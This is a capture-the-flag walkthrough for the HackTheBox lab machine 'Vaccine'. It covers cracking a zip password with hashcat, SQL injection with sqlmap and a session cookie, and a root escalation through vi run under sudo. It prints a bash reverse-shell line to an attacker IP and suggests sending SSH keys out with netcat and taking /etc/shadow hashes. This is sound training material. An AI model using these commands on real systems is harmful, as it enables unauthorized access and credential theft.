*2021-08-15*

*kimm3*
# Walkthrough: Vaccine
Platform: HackTheBox, Starting Point

Difficulty: Very Easy

This is the third box in the starting point series.

The boxes build on each other so make sure to save credentials and other intersting information that you find.

## Info gathering and enumeration
**HTTP service**



Three well known services appear. Let's start with the web server.





It's a login page for "MegaCorp", same company as the previous boxes. It contains a POST-form and stores a cookie with a PHP session id.

We have som plausible username and passwords that might get us in from the previous boxes, but lets check out the ftp service first.

**FTP service**



The ftpuser account works to gain access to the ftp service, there's a zip file called 'backup.zip' which we can retrieve.



The zip contains two files, index.php and style.css, that are password protected. The passwords we've saved from earlier dosen't work so we'll have to try to crack them.

First we have to generate a hash from the password, then we'll use hashcat combined with a big wordlist.



Generating the hash.





Cracking the hash. Use the [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes) to find the correct mode. It was suffice to do a simple dictionary attack and use the 'rockyou.txt'. Don't forget to clean up the hash file so that only the hash is processed(haschat won't recognize the original output from zip2john).



This actually looks like the login page visited earlier, with some really static web programming - it checks for one set of credentials, admin and a md5 hash.





Let's go back to the login page and try this out.



The page presents a catalog and a search function, no links. If we search for something, the URL changes to:

`http://10.10.10.46/dashboard.php?search=q`

Lets see if sqlmap can find any sqli vulnerabilities with this. Copy the url from the search bar and the cookie from firefox dev tools(ctrl+shift+e).

`sqlmap -u "http://10.10.10.46/dashboard.php?search=q" --cookie="PHPSESSID=8nd61fr6kvehdab0vq8h9m3mvf" --random-agent`



We get some additional information about the host. It's a linux machine running apache and a postgresql database. A stacked query vulnerability is found.

We can check if the current user is dba(database administrator) and the current database with `--is-dba --current-database`. The user is indeed dba. To further enumerate the the database, use `-D public --schema`-





The schema looks like everything we can see in the browser, not that interesting.
## Foothold
With sqlmap, we can use the `--os-shell` to land a shell.



To get a proper shell, I first tried this one-liner from [payloadsallthethings cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)





It dosen't seem to work to run it directly in the shell. So lets create a file and run it with bash.

```
echo "bash -i >& /dev/tcp/10.10.16.37/1234 0>&1" > s.sh
chmod u+x s.sh
bash s.sh
```


## Privilege escalation


There seems to be two users, ftpuser and simon.



There's a password in the dashboard.php for the postgres user. Now that we have the password we can see if we can run anything as sudo.



We can run vi to edit a database config file, which is good since you can run shell commands from inside vi.



Run the command with sudo, inside vi do:
`:!/bin/bash/` and you get the shell as root.

The flag is in the '/root' folder as usual.

## Post Exploitation
A bunch of ssh keys is lying around in `/etc/ssh/` folder. You can send them over with netcat.


As root, you can get the password hashes for simon and root in `/etc/shadow` for offline cracking.
